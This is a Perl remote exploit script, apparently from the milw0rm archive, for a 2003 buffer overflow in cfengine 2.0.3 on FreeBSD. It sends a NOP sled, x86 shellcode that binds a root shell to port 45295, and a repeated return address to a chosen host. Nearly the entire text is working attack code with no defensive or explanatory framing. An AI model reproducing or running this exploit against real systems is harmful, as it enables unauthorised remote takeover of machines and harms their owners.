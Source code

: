EXP
---

    #!/usr/bin/perl -s
    # kokaninATdtors.net / cfengine2-2.0.3 from freebsd ports 26/sep/2003.
    # forking portbind shellcode port=0xb0ef(45295) by eSDee
    # bug discovered by nick cleaton, tested on FreeBSD 4.8-RELEASE

    use IO::Socket;
    if(!$ARGV[1])
    { print "usage: ./DSR-cfengine.pl <host> <port> (default cfengine is 5308)\n"; exit(-1); }

    $host = $ARGV[0];
    $port = $ARGV[1];
    $nop = "\x90";
    $ret = pack("l",0xbfafe3dc);
    $shellcode =
    "\x31\xc0\x31\xdb\x53\xb3\x06\x53\xb3\x01\x53\xb3\x02\x53\x54\xb0".
    "\x61\xcd\x80\x89\xc7\x31\xc0\x50\x50\x50\x66\x68\xb0\xef\xb7\x02".
    "\x66\x53\x89\xe1\x31\xdb\xb3\x10\x53\x51\x57\x50\xb0\x68\xcd\x80".
    "\x31\xdb\x39\xc3\x74\x06\x31\xc0\xb0\x01\xcd\x80\x31\xc0\x50\x57".
    "\x50\xb0\x6a\xcd\x80\x31\xc0\x31\xdb\x50\x89\xe1\xb3\x01\x53\x89".
    "\xe2\x50\x51\x52\xb3\x14\x53\x50\xb0\x2e\xcd\x80\x31\xc0\x50\x50".
    "\x57\x50\xb0\x1e\xcd\x80\x89\xc6\x31\xc0\x31\xdb\xb0\x02\xcd\x80".
    "\x39\xc3\x75\x44\x31\xc0\x57\x50\xb0\x06\xcd\x80\x31\xc0\x50\x56".
    "\x50\xb0\x5a\xcd\x80\x31\xc0\x31\xdb\x43\x53\x56\x50\xb0\x5a\xcd".
    "\x80\x31\xc0\x43\x53\x56\x50\xb0\x5a\xcd\x80\x31\xc0\x50\x68\x2f".
    "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x54\x53\x50\xb0\x3b".
    "\xcd\x80\x31\xc0\xb0\x01\xcd\x80\x31\xc0\x56\x50\xb0\x06\xcd\x80".
    "\xeb\x9a";


    $buf = $nop x 2222 . $shellcode . $ret x 500;

    $socket = new IO::Socket::INET (
    Proto  => "tcp",
    PeerAddr => $host,
    PeerPort => $port,
    );

    die "unable to connect to $host:$port ($!)\n" unless $socket;

    sleep(1); #you might have to adjust this on slow connections
    print $socket $buf;

    close($socket);


    # milw0rm.com [2003-09-27]
